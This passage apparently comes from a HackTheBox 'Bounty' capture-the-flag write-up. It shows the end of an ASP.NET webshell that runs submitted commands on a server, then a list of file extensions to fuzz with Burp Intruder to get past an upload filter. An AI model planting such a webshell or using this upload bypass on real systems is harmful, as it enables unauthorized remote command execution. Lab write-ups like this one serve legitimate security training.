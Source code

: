 ```aspx
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2002:43:34.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2002:45:50.png)

Did not work, it seems to be making some kind of filter. Let's try to bruteforce it to see what are the formats that it accepts

list_formats.txt

```
pl
config
aspx
asp
php
php7
cgi
exe
```

Now that we have a list from the formats we could try to bruteforce it, to see what format is being accept here.

For this we send the request to BurpSuite and to `Intruder`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2005:38:28.png)

We set as the Payload the format of the file
